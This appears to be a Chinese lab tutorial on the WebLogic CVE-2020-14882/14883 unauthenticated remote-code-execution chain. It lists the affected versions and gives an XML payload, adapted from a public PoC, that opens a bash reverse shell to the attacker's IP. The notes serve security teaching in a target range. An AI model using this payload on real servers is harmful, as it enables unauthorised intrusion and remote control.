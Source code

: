 ### CVE-2020-14882-远程代码执行

```
weblogic未授权漏洞：CVE-2020-14882
weblogic命令执行漏洞：CVE-2020-14883
1、CVE-2020-14882允许未授权的用户绕过管理控制台（Console）的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。
2、使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。
原理分析（拓展资料）：https://xz.aliyun.com/t/8470
影响版本：
10.3.6.0.0
12.1.3.0.0
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

```
启动靶场。
```

![image-20241122155019281](中间件漏洞/image-20241122155019281.png)	

```
1、执行payload后不回显，但是已经执行成功。使用GET请求或者使用dnslog平台进行验证
2、执行payload后回显，通过GET方式进行payload提交，通过POST方式进行payload提交
3、通过把payload构造为XML格式进行引用（本节课演示的方法）
```

```xml
首先根据该地址下载poc.xml
https://github.com/GGyao/CVE-2020-14882_ALL/tree/master
修改其中的内容,将反弹连接的ip写成攻击机的ip
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
	<value>/bin/bash</value>
	<value>-c</value>
	<value><! [CDATA[bash -i >& /dev/tcp/192.168.15.128/5555 0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>

```
